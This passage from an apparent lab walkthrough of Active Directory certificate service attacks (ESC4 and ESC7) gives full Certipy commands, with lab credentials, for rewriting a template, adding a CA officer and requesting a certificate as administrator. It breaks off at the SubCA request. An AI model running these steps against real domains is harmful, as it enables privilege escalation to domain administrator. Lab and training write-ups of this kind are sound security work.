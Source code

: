 We can specify the `-save-old` flag to save the old configuration, which is useful for restoring the configuration afterwards.

`certipy template -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -template Vuln-ESC4 -dc-ip 192.168.91.181 -save-old`

![](/screenshots/20230725005406.png?raw=true)

Therefore, we can now request a certificate based on the ESC4 template and specify an arbitrary SAN with the `-upn` flag, in the exact same way we would for ESC1.

`certipy req -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -ca Certipied-CA -template Vuln-ESC4 -upn administrator@certipied.local -dc-ip 192.168.91.181`

![](/screenshots/20230725005455.png?raw=true)

We can restore the old configuration by specifying the path to the saved configuration with the `-configuration` flag.

`certipy template -u s.jackson@certipied.local -p 'Pr3-0wn3d@#.' -template Vuln-ESC4 -dc-ip 192.168.91.181 -configuration Vuln-ESC4.json`

![](/screenshots/20230725005618.png?raw=true)

## Vulnerable Certificate Authority Access Control - ESC7

![ESC7](/screenshots/ESC7.png?raw=true)

### Template Abuse

If you only have the `Manage CA` access right, you can grant yourself the `Manage Certificates` access right by adding your user as a new officer.

`certipy ca -ca 'Certipied-CA' -add-officer m.roland -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -dc-ip 192.168.91.181`

![](/screenshots/20230725010032.png?raw=true)

The **`SubCA`** template can be **enabled on the CA** with the `-enable-template` parameter. By default, the `SubCA` template is enabled.

`certipy ca -ca 'Certipied-CA' -enable-template SubCA -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -dc-ip 192.168.91.181`

![](/screenshots/20230725010101.png?raw=true)

If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template.

This request will be denied, but we will save the private key and note down the request ID.

`certipy req -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -ca Certipied-CA -template SubCA -upn administrator@certipied.local -dc-ip 192.168.91.181`

![](/screenshots/20230725010221.png?raw=true)
